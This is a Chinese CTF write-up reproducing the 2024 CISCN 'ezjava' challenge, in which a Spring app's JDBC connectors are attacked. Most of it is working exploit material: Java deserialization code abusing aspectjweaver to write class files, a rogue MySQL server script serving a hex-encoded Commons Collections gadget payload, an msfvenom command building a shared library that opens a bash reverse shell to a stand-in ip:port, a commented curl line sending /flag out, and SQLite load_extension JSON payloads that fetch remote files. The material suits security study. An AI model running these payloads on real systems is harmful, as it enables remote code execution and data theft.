




# 2024ciscn ezjava复现-先知社区

> **来源**: https://xz.aliyun.com/news/16537  
> **文章ID**: 16537

---

## mysql写文件到classpath(行不通)

首先看pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <groupId>com.example</groupId>
    <artifactId>jdbcTest</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>jdbcTest</name>
    <description>jdbcTest</description>
    <properties>
        <java.version>1.8</java.version>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <project.reporting.outputEncoding>UTF-8</project.reporting.outputEncoding>
        <spring-boot.version>2.3.3.RELEASE</spring-boot.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.xerial</groupId>
            <artifactId>sqlite-jdbc</artifactId>
            <version>3.8.9</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>com.clickhouse</groupId>
            <artifactId>clickhouse-jdbc</artifactId>
            <version>0.3.2-patch11</version>
        </dependency>

        <dependency>
            <groupId>org.junit.jupiter</groupId>
            <artifactId>junit-jupiter-engine</artifactId>
        </dependency>

        <dependency>
            <groupId>org.junit.jupiter</groupId>
            <artifactId>junit-jupiter-params</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <!-- https://mvnrepository.com/artifact/mysql/mysql-connector-java -->
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.13</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/org.postgresql/postgresql -->
        <dependency>
            <groupId>org.postgresql</groupId>
            <artifactId>postgresql</artifactId>
            <version>42.7.2</version>
        </dependency>

        <dependency>
            <groupId>com.amazon.redshift</groupId>
            <artifactId>redshift-jdbc42</artifactId>
            <version>2.1.0.10</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/oracle.jdbc.oracledriver/ojdbc6 -->


        <!-- https://mvnrepository.com/artifact/org.aspectj/aspectjweaver -->
        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.5</version>
            <scope>runtime</scope>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
    </dependencies>
    <dependencyManagement>
        <dependencies>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-dependencies</artifactId>
                <version>${spring-boot.version}</version>
                <type>pom</type>
                <scope>import</scope>
            </dependency>

        </dependencies>
    </dependencyManagement>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <configuration>
                    <source>1.8</source>
                    <target>1.8</target>
                    <encoding>UTF-8</encoding>
                </configuration>
            </plugin>
        <plugin>
            <groupId>org.springframework.boot</groupId>

            <artifactId>spring-boot-maven-plugin</artifactId>
            <version>2.0.3.RELEASE</version>
            <executions>
                <execution>
                    <goals>
                        <goal>repackage</goal>
                    </goals>
                </execution>
            </executions>
        </plugin>
        </plugins>
    </build>

</project>

```

这里一开始想到的是2021年CISCN的ezj4va的打法,用mysql jdbc直接返回序列化数据,aspectjweaver写入恶意classes文件

```
SimpleCache$StoreableCachingMap.put()
​SimpleCache$StoreableCachingMap.writeToPath()
​FileOutputStream.write()
```

UserBean类:

```
package com.example.jdbctest.bean;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.util.Base64;
import java.util.HashMap;

/* loaded from: UserBean.class */
public class UserBean implements Serializable {
    private String name;
    private String age;
    private Object obj;

    public UserBean(String name, String age) {
        this.name = name;
        this.age = age;
    }

    public UserBean() {
    }

    public String getAge() {
        return this.age;
    }

    public void setAge(String age) {
        this.age = age;
    }

    public Object getObj() {
        return this.obj;
    }

    public void setObj(Object obj) {
        this.obj = obj;
    }

    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        HashMap<String, byte[]> a = (HashMap) gf.get("obj", (Object) null);
        String name = (String) gf.get("name", (Object) null);
        String age = (String) gf.get("age", (Object) null);
        if (a == null) {
            this.obj = null;
            return;
        }
        try {
            a.put(name, Base64.getDecoder().decode(age));
        } catch (Exception var7) {
            var7.printStackTrace();
        }
    }
}

```

这里反序列化正好可以可控一个put方法,我们目的是写入classpath下,这里为了防止本地编译自动在target/classes下生成class文件冲突新建了另一个项目来写exp

```
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(java.io.ObjectInputStream s) throws Exception{
        //Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","curl http://ip:port -F file=@/flag"});
         Runtime.getRuntime().exec("calc");
    }
}

```

```
import com.example.jdbctest.bean.UserBean;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.util.Base64;

public class exp1 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, InvocationTargetException, IOException {
        UserBean userBean=new UserBean();
        Constructor aspectjConstructor = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructors()[0];
        aspectjConstructor.setAccessible(true);
        Object simpleCache = aspectjConstructor.newInstance("./target/classes", 12);

        userBean.setObj(simpleCache);
        userBean.setName("Evil.class");
        byte[] content_byte = Files.readAllBytes(new File("D:\\JavaProject\\writepayload\\src\\main\\java\\Evil.class").toPath());
        userBean.setAge(Base64.getEncoder().encodeToString(content_byte));
        FileOutputStream fileOutputStream = new FileOutputStream("payload");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(userBean);

//        ByteArrayInputStream bais = new ByteArrayInputStream(bos.toByteArray());
//        ObjectInputStream objectInputStream=new ObjectInputStream(bais);
//        userBean = (UserBean) objectInputStream.readObject();


    }
}

```

生成的payload文件和jdbc\_exp.py文件放到同一个目录:

```
# coding=utf-8
import socket
import binascii
import os

greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"

def receive_data(conn):
    data = conn.recv(1024)
    print("[*] Receiveing the package : {}".format(data))
    return str(data).lower()

def send_data(conn,data):
    print("[*] Sending the package : {}".format(data))
    conn.send(binascii.a2b_hex(data))

def get_payload_content():
    #file文件的内容使用ysoserial生成的 使用规则：java -jar ysoserial [Gadget] [command] > payload
    file= r'payload'
    if os.path.isfile(file):
        with open(file, 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
        print("open successs")

    else:
        print("open false")
        #calc
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
    return payload_content

# 主要逻辑
def run():

    while 1:
        conn, addr = sk.accept()
        print("Connection come from {}:{}".format(addr[0],addr[1]))

        # 1.先发送第一个 问候报文
        send_data(conn,greeting_data)

        while True:
            # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok
            receive_data(conn)
            send_data(conn,response_ok_data)

            #其他过程
            data=receive_data(conn)
            #查询一些配置信息,其中会发送自己的 版本号
            if "session.auto_increment_increment" in data:
                _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
                send_data(conn,_payload)
                data=receive_data(conn)
            elif "show warnings" in data:
                _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
                send_data(conn, _payload)
                data = receive_data(conn)
            if "set names" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "set character_set_results" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "show session status" in data:
                mysql_data = '0100000102'
                mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
                mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
                # 为什么我加了EOF Packet 就无法正常运行呢？？
                # 获取payload
                payload_content=get_payload_content()
                # 计算payload长度
                payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
                payload_length_hex = payload_length[2:4] + payload_length[0:2]
                # 计算数据包长度
                data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
                data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
                mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
                mysql_data += str(payload_content)
                mysql_data += '07000005fe000022000100'
                send_data(conn, mysql_data)
                data = receive_data(conn)
            if "show warnings" in data:
                payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
                send_data(conn, payload)
            break


if __name__ == '__main__':
    HOST ='0.0.0.0'
    PORT = 3306

    sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
    sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sk.bind((HOST, PORT))
    sk.listen(1)

    print("start fake mysql server listening on {}:{}".format(HOST,PORT))

    run()

```

此脚本会先寻找当前目录的payload文件传给mysql,没有就传自定义的默认的数据

第一次我们写入恶意的classes文件



第二次我们直接把Evil类序列化通过Mysql JDBC返回,它会先去classpath下寻找是否有同名文件,有的话直接调用其中我们重写的readObject()方法

```
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class exp2 {
    public static void main(String[] args) throws IOException {
        FileOutputStream fileOutputStream=new FileOutputStream("payload");
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(new Evil());
    }
}

```



成功弹出计算器

但是远程没有打通,因为远程应该是个jar包,没有.target/classes这个目录,之前的题能打通是因为那个题有iml配置文件配置了`target/classes`为`WEB-INF/classes`

## mysql写so文件+sqlite加载so RCE

看了别人的wp发现是打sqlite:

```
<dependency>
    <groupId>org.xerial</groupId>
    <artifactId>sqlite-jdbc</artifactId>
    <version>3.8.9</version>
</dependency>

```





参考: <https://github.com/Y4tacker/JavaSec/blob/main/9.JDBC%20Attack/SQLite/index.md>  
和 <https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/>  
我们这里有可控的select语句,将tableName设置成`create view xxx as 恶意select语句`,我们执行`select * from tableName`时会被劫持去执行恶意select语句,也可以通过()括上select语句来执行里面的select语句

我们这里可以通过mysql上传一个恶意的so文件到/tmp目录,然后打sqlite去加载恶意so文件

so文件:

```
msfvenom -p linux/x64/exec CMD='echo bash -c "bash -i >& /dev/tcp/ip/port 0>&1"的base64编码|base64 -d|bash' -f elf-so -o evil.so
```

之前mysql jdbc的payload改一下  
`Object simpleCache = aspectjConstructor.newInstance("./target/classes", 12);`  
的`./target/classes`为`../../../../../../../tmp`即可

然后打sqlite

```
{
"type":"3",
"tableName":"(select (load_extension(\"/tmp/evil.so\")));",
 "url":"jdbc:sqlite:file:/tmp/db?enable_load_extension=true"
 }

```

## sqlite写文件+加载so文件

主要参考: <https://www.cnblogs.com/F12-blog/p/18208215>  
还可以通过sqlite写文件:

1. 先传入恶意so文件的缓存文件(.db),然后传入服务端,

   ```
   {"type":"3","url":"jdbc:sqlite::resource:http://ip:port/poc.so"}

   ```

   此时会在/tmp下生成一个sqlite-jdbc-tmp-??????.db  
   这个????的计算方法是`new URL(url).hashCode()+'.db'`
2. 同样方法上传恶意db文件,内容是指定tableName方便后面来劫持select语句去执行我们恶意的select语句  
   db文件内容:

   ```
   CREATE VIEW security as SELECT ( SELECT load_extension('/tmp/sqlite-jdbc-tmp--??????.db'));

   ```

   这个load的是第一步上传的so文件  
   payload:

   ```
   {"type":"3","url":"jdbc:sqlite::resource:http://ip:port/poc.db","tableName": "security"}

   ```

   此时又在/tmp下生成一个db文件,是poc.db的
3. 开启load\_extension,加载恶意so文件

   ```
   {"type":"3","url":"jdbc:sqlite:file:/tmp/sqlite-jdbc-tmp--??????.db?enable_load_extension=true","tableName": "security"}

   ```

   此时的file是上一步的poc.db的

参考:

* <https://www.cnblogs.com/F12-blog/p/18208215>
* <https://blog.csdn.net/uuzeray/article/details/139052904>
* <https://github.com/Y4tacker/JavaSec/blob/main/9.JDBC%20Attack/SQLite/index.md>
* <https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/>
